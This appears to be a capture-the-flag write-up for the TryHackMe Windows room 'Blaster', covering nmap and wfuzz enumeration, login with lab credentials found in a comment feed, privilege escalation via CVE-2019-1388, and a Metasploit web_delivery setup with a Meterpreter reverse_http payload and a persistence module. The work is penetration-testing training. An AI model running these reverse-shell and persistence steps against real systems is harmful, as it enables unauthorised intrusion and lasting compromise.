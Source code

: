 # TryHackMe Writeup - Blaster

This is a writeup to the TryHackMe Windows machine "Blaster".

<https://tryhackme.com/room/blaster>

## Task 1: Reconnaissance

First let's start as always: Perform some reconnaissance at our target. I start by scanning the machine for any open ports with nmap

```
sudo nmap -p- -A --script vuln <Target IP>
```

The "vuln" script is a script from nmap which tries to detect common vulnerabilities on the discovered open ports of the machine.

This is a part of the nmap result:

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

There are 2 open ports on the machine. Port 80 seems to host a webserver. Port 3389 is also open - probably for RDP.

Let's check the webserver. To get better access I opened the "/etc/hosts" file with the command 

```
sudo nano /etc/hosts
```

and added the following line:

```
<Target IP> machine.thm
```

Now it is possible to access the machine via the hostname "machine.thm" which makes web enumeration easier later.

I opened the webbrowser and checked the website:

![Webpage](images/blaster/grafik.png)

The standard interface of a Microsoft Windows Server shows up.

I started webpage enumeration with wfuzz by the command

```
wfuzz -u http://machine.thm/FUZZ -w Desktop/wordlist/dirbuster_wordlist_medium.txt --hc 404
```

The "-u" parameter defines the URL which shall be fuzzed. In the URL the word "FUZZ" gets replaced by the according word from the wordlist which is provided. The path to the wordlist is specified by the "-w" parameter. In this case I used a wordlist from dirbuster - but there are many different wordlists available on GitHub & co. The "--hc 404" parameter defines that all requests of wfuzz which return a HTTP 404 "not found" error will not be shown. For further parameters and explanation please check out the

```
wfuzz --help
```

command.

This is a part of the output of the wfuzz enumeration:

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================                                                                                                         
000004975:   301        1 L      10 W       148 Ch      "retro"                                                                                                                                                                   
000031429:   301        1 L      10 W       148 Ch      "Retro"                                                                                                                                                                   
```

A subpage named "retro" is found. Let's navigate to it:

![Retro subpage](images/blaster/grafik%20%282%29.png)

The subpage is a blog about retro games where a user named "wade" published some blog entries.  
  
On his user page a side menu is available

![User page with side menu](images/blaster/grafik%20%283%29.png)

In the side menu there is also a 

![Side menu](images/blaster/grafik%20%284%29.png)

"Comments RSS" link which downloads a xml file. In the file there is a interesting comment:

![Possible password](images/blaster/grafik%20%285%29.png)

Maybe this is a password reminder or something like this. Let's try logging in. Down on the page there is a "Log in" link which refers us to a wordpress login.

![Login link](images/blaster/grafik%20%286%29.png)

At the wordpress login we can successfully login with the Username "Wade" and the password "Parzival".

Maybe it is possible to login at the open RDP port with the same credentials. I use the command

```
xfreerdp -u Wade machine.thm
```

The "domain" entry can be left empty. When asked I entered the password "parzival" and got a remote desktop connection established.

On the desktop there can be found a "user.txt" file which contains the first flag of the machine.

## Task 2: Privilege escalation

On the desktop there is a file called "hhupd". A quick google search revealed, that there is a CVE from 2019 with the id CVE-2019-1388 in the hhupd file.  
How this vulnerability can be exploited is described [here](https://github.com/nobodyatall648/CVE-2019-1388).

I then followed the steps described in the tutorial and got a cmd shell as system. With the

```
whoami
```

command I verified that I am running the terminal as SYSTEM user:

![System user cmd shell](images/blaster/grafik%20%287%29.png)

With the elevated privileges we can access the administrator account and read the flag. I started a powershell command prompt inside the cmd command prompt with the

```
powershell
```

command. Then I accessed the administrator flag with the

```
cat C:\Users\Administrator\Desktop\root.txt
```

command. The flag appears.

## Task 3: Persistence

Let's try another way to get a remote shell. I opened the metasploit framework with the

```
msfconsole
```

command. I then selected the exploit with the

```
use exploit/multi/script/web_delivery
```

command. This exploit will host a local webserver with a payload on it. Then we need to execute a specific command on the target machine. With

```
show options
```

the options of the exploit are shown. With the 

```
show targets
```

command we can show all possible targets like python, powershell etc. Here we want to select the powershell target with the

```
set TARGET 2
```

Then we set the payload to meterpreter payload on windows via http with the

```
set payload windows/meterpreter/reverse_http
```

command. Here we also need to specify the LHOST parameter with the

```
set LHOST <Your own IP>
```

command. Also the LPORT parameter needs to be set. By default 8080 is defined, but in this case the exploit already runs on port 8080. So the port needs to be changed by the

```
set LPORT <Your desired port>
```

command. Then everything is set up and the exploit can be fired with the

```
exploit
```

command.

The exploit generates the payload and pastes a command string which we need to copy and execute in the admin shell on the target. Then a meterpreter session is established and we can access the target system via the meterpreter shell. With the command

```
sessions
```

we can list all available sessions. 

Then we open the meterpreter session with the

```
sessions <SESSION ID>
```

command. 

Now let's get persistent on the remote system. I will do this by the

```
run exploit/windows/local/persistence LHOST=<YOUR IP>
```

command. The 

```
run persistence
```

command is deprecated but the correct answer for the question in TryHackMe.

In this specific case the Windows Defender detects the meterpreter malware and deletes it.

The machine is done!